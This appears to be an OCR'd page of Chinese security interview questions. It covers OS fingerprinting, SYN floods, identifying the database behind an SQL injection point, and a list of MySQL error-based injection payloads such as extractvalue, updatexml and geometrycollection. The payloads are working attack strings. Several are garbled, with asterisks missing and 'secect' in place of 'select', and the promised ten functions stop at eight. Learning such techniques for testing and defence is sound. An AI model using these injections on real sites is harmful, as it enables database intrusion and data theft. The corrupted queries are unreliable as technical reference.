 **42.如何手工判断对方操作系统？**

- 修改url中参数，改成大写，正常为windows，不正常即为linux
- ping服务器，返还得TTL值不一样，windows一般在100以上，linux一般是100以下。
- 查看数据包HTTP报头，如果是iis那就肯定是windows

**43.DDos攻击**

客户端向服务端发送请求链接数据包，服务端向客户端发送确认数据包，客户端不向服务端发送确认数据包，服务器一直等待来自客户端的确认

没有彻底根治的办法，除非不使用TCP

DDos预防：

（1）限制同时打开SYN半链接的数目

（2）缩短SYN半链接的Time out 时间

（3）关闭不必要的服务

**44.找到一个注入点怎么判断对方什么数据库？**

常见的数据库Oracle、MySQL、SQL Server、Access、MSsql、mongodb等
关系型数据库：由二维表及其之间的联系组成的一个数据组织。如：Oracle、DB2、MySql

- 可以使用特定的函数来判断，该数据库特有的。
  - len()函数：mssql、mysql、db2
  - length()函数:Oracle、informix
  - substring：mssql
  - substr：oracle
  - version()>1 返回与@@version>1 相同页面时，则可能是mysql。如果出现提示version()错误时，则可能是mssql。
- 可以使用辅助的符号来判断，如注释符号、多语句查询符等等。
  - /*  mysql特有注释符，返回错误说明不是mysql
  - --  是Oracle和MSSQL支持的注释符，如果返回正常，则说明为这两种数据库类型之一。继续提交如下查询字符
  - ;   是子句查询标识符，Oracle不支持多行查询，因此如果返回错误，则说明很可能是Oracle数据库。
- 可以利用错误信息
  - 错误信息中包含了"MySQL"和"server version"等关键词，这表明该目标系统可能是MySQL数据库。
  - 错误信息中包含了"quotation mark"等关键词，这表明该目标系统可能是MSSQL数据库。
  - 错误信息中包含了"Syntax error"等关键词，这表明该目标系统可能是ACCESS数据库
- 是否存在数据库某些特性辅助判断
  - and exists (select count(*) from sysobjects) 返回正常是mssql
  - and exists (select count(*) from msysobjects) 两条，和上一条返回都不正常是ACCESS，如果是字符型，参数后加 ' 最后加 ;--

**45.报错注入的函数有哪些？10个**

（1）and extractvalue(1, concat(0x7e,(select @@version),0x7e))

（2）通过floor报错 向下取整

（3）and updatexml(1, concat(0x7e,(secect @@version),0x7e),1) 

（4）select from test where id=1 and geometrycollection((select from(selectfrom(select user())a)b)); 

（5）select from test where id=1 and multipoint((select from(select from(select user())a)b));

（6）select from test where id=1 and polygon((select from(select from(select user())a)b));

（7）select from test where id=1 and multipolygon((select from(select from(select user())a)b));

（8）select from test where id=1 and linestring((select from(select from(select user())a)b));
